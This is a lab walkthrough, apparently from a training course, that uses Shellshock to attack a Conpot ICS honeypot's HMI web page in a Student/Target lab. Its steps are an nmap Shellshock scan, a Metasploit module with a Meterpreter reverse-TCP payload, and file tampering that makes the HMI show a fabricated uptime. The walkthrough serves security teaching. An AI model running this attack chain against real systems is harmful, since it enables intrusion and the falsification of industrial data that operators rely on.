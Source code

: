 Shellshock, a critical vulnerability, targeted Unix-based systems through the popular Bash shell. It arose from mishandled environment variables, letting attackers inject malicious code for unauthorized access. This flaw risked extensive harm, from data breaches to full OS control. Rapid spread prompted quick patches by OS vendors, stressing proactive security and timely updates to prevent emerging risks.

Shellshock's impact was significant, exposing organizations and users to cyberattacks. Malicious actors exploited the vulnerability, causing financial losses, breaches, and reputational harm. The cybersecurity community responded with patches and strategies. OS vendors played a key role by releasing timely updates, and stressing their applications. Best practices emerged, like limiting Bash use and enhancing security. The incident highlighted the need for vigilant security to counter OS-level threats.
# Target Configuration

The Human-Machine Interface (HMI) is a graphical system enabling human interaction with machines, common in industrial and control settings. This system visually represents data and controls, and facilitates information exchange between operators and the monitored systems.

An HMI interface present within the Target machine will be exploited later on, allowing the display of a fabricated value instead of the genuine data.

Prior preparation is essential before taking the next step.

To disable the SNMP server, follow these steps on the simulated system that has its own SNMP server running.
`sudo service snmpd stop`

Next, initiate the Apache Web server, running alongside the target HMI Web server. The Apache server contains a bash script that could be exploited if the operating system is vulnerable to Shellshock.
Start the Apache server using the following command:
`sudo service apache2 start`
# Shellshock check

Shellshock is a critical vulnerability in Unix-based systems, including the **Apache HTTP Server with CGI** enabled. This vulnerability allows attackers to execute malicious code through improper input handling in the Bash shell's environment variables. This can lead to unauthorized access and data breaches.

To assess the Target machine for the Shellshock vulnerability, initiate an nmap scan.
On the Student machine, open the terminal window and input the following command.

`nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/shockme.cgi 192.168.1.102 --unprivileged`

Utilizing the Nmap command, a scan is conducted on the Target to identify the Shellshock vulnerability, with a specific emphasis on the provided URI.

Upon the completion of the Nmap scan, the presence of the Shellshock vulnerability is confirmed and additional reference information about the vulnerability is provided.
# Starting Conpot

Conpot is an open-source honeypot software designed to emulate various industrial control systems (ICS) protocols, like Modbus, DNP3, and S7comm, enabling the creation of realistic-looking ICS environments to detect and analyze attacks, gather threat intelligence, and employ features such as logging, alerting, and SNMP server simulation.
First, navigate back to the Target machine and log in as the user conpot:
`su conpot`

When prompted for the password, enter conpot:
`conpot`

Lastly, to initiate Conpot, enter the following command:

`/home/conpot/.local/bin/conpot --template default --logfile /var/log/conpot/conpot.log -f --temp_dir /tmp`

Based on the output of conpot when u ran it, what port did IPMI start on? 
![[Pasted image 20250804183339.png]]
# Visiting the HMI page

Navigate to the Student machine and open a Firefox tab.
Utilize the provided link below to reach the HMI page.

http://192.168.1.102:8800

Later in the process, the system uptime will be manipulated to display an arbitrary value on the page.
### Starting Metasploit

The Metasploit framework is a powerful open-source tool used for penetration testing and exploiting vulnerabilities in computer systems. The framework provides a vast collection of exploits, payloads, and auxiliary modules, making it an essential resource for security professionals.

Initiate the Metasploit Framework by entering the provided command in the terminal.
`msfconsole`
# Metasploit Configuration

In the Metasploit console, execute the provided command to select the "apache mod_cgi Bash Environment Variable Code Injection" option.
`use exploit/multi/http/apache_mod_cgi_bash_env_exec`

Set the RHOST variable to:
`set RHOSTS 192.168.1.102`

After performing a scan on the Target machine using the provided URI (/cgi-bin/shockme.cgi) to detect the shellshock vulnerability, the results revealed the vulnerability of the Target host. Proceed by configuring the TARGETURI variable to:
`set TARGETURI /cgi-bin/shockme.cgi`

Set the Payload variable to:
`set PAYLOAD linux/x86/meterpreter/reverse_tcp`

Lastly, to confirm the changes made use the following command:
`show options`

What is the RPORT of the target? 80
The preparation for Shellshock exploitation is complete.

With the settings meeting the requirements, initiate the module by executing the following command:
`exploit`
# Directory Permissions and Downloading HMI code

While in the Meterpreter session on the Student machine, it is crucial to inspect the permissions of the folder where the HMI files that must be modified are located. This preliminary assessment is a necessary step before proceeding with any alterations to the contents of the folder. By default, the SCADA Conpot HMI interface files are stored within the specified path below.

`ls /home/conpot/.local/lib/python3.8/site-packages/conpot/templates/default/http/htdocs/`

The folder is world-writable, enabling the creation or uploading of new files.
Navigate to the designated file path, where the HMI code possesses the required permissions for both downloading and uploading files. Do so by entering the following command within the Meterpreter session.

`cd /home/conpot/.local/lib/python3.8/site-packages/conpot/templates/default/http/htdocs/`

Retrieve the "index.html" file, which will be edited to display arbitrary data.
`download index.html`
# HMI code modification and Uploading

Open a new terminal tab on the Student machine.
Open and edit the downloaded index.html file using gedit.
`gedit index.html`

Once inside the index.html file, find the section of code responsible for fetching the system uptime.
Substitute the content of line 27 with the following line to make the modification.
`<td>5555 timeticks (deciseconds)</td>`

After altering line 27, the page will display the arbitrary value of 5555 instead of the original system uptime that the HMI page was intended to retrieve.
Save the changes made and close the editor.

Return to the Metasploit Meterpreter session and proceed to upload the modified index.html file.
Utilize the command below to upload the modified index.html file onto the Target machine.
`upload index.html`

Exit the Meterpreter session by entering the following command.
`exit`
### Revisiting HMI page

Upon revisiting the HMI page on the Student machine and refreshing it, it becomes evident that the System Uptime section now presents the arbitrary number.